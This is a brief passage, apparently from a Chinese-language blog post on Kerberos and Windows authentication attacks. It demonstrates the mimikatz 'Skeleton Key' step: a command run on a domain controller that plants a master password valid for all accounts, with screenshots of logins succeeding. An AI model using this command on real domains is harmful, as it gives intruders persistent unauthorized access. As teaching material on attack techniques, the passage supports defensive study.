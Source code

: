 

在DC上使用管理员权限执行

```powershell
mimikatz.exe "privilege::debug" "misc::skeleton" exit exit
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-188c6caa96a64042a2d27f76f54f92d7.png)



在其他主机上输入错误密码时:

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-b4716836cac84c1b8c14401d878f59f4.png)



在其他主机上输入主密码/万能密码时:

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-c32c0326e44d424182999c392d3eb58f.png)



查看磁盘发现成功连接目标主机:
